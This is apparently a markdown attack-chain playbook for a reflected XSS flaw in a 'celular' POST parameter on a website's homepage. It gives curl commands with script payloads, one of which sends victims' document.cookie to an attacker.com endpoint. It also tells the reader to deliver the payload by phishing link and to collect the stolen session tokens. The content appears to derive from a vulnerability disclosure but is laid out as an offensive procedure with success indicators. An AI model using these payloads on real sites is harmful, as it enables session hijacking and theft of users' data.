

# Reflected XSS in Celular Parameter via POST Request Leading to JavaScript Execution

Multi-stage attack chain demonstrating exploitation of a reflected Cross-Site Scripting (XSS) vulnerability in the 'celular' parameter of a POST request to the homepage of a target website, enabling arbitrary JavaScript execution in the victim's browser. This can lead to session hijacking, phishing, or data theft, with a CVSS score of 6.2 indicating medium severity.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- Web browser or proxy like Burp Suite for testing

### Target Environment

- Web application (e.g., Mars-owned site)
- HTTP/HTTPS access to homepage
- No specific ports beyond standard 80/443

### Initial Access Requirements

- Network access to the target website
- Ability to send POST requests (no authentication required for this reflected XSS)
- Victim interaction: User must submit or view the crafted request/response

## Detailed Attack Procedures

### Step 1: Identify Lack of Input Sanitization
procedure: [[procedures/Test-and-Exploit-Reflected-XSS-in-Celular-Parameter]]

**Objective**: Test the 'celular' parameter in a POST request to detect if user input is reflected unsanitized in the response, confirming the XSS vulnerability.

**Instructions**: Use [[commands/curl-send-post-xss-test]] to submit a benign payload to the homepage and inspect the response for reflection without escaping.

```bash
curl -X POST https://target-website.com/ -d "celular=<script>alert('XSS')</script>" -H "Content-Type: application/x-www-form-urlencoded"
```

Inspect the response body for the unescaped payload. If the script tag appears as-is, the vulnerability exists.

**Expected Output**: HTTP response containing the reflected payload like "<script>alert('XSS')</script>" without HTML encoding.

**Success Indicators**:
- Payload reflected unsanitized in response
- No server-side error or sanitization applied

### Step 2: Exploit to Execute JavaScript
procedure: [[procedures/Test-and-Exploit-Reflected-XSS-in-Celular-Parameter]]

**Objective**: Inject and execute arbitrary JavaScript in the victim's browser by tricking them into submitting or viewing the malicious POST request.

**Instructions**: Craft a malicious payload targeting session hijacking or phishing, such as stealing cookies. Use [[commands/curl-send-post-xss-exploit]] to simulate or deliver the payload.

```bash
curl -X POST https://target-website.com/ -d "celular=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>" -H "Content-Type: application/x-www-form-urlencoded"
```

Deliver this via a phishing link or form that submits the POST, causing execution in the victim's context upon response rendering. Validate by checking attacker server for exfiltrated data.

**Expected Output**: JavaScript executes in browser, e.g., alert pops or data sent to attacker-controlled endpoint.

**Success Indicators**:
- Arbitrary code runs in victim browser
- Potential data theft (e.g., session tokens captured)

## Attack Chain Summary

### Key Achievements

1. Confirmed reflected XSS in 'celular' parameter without sanitization (CWE-79).
2. Demonstrated JavaScript execution leading to client-side risks like session hijacking.
3. Highlighted medium-severity impact (CVSS 6.2) for web application security.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
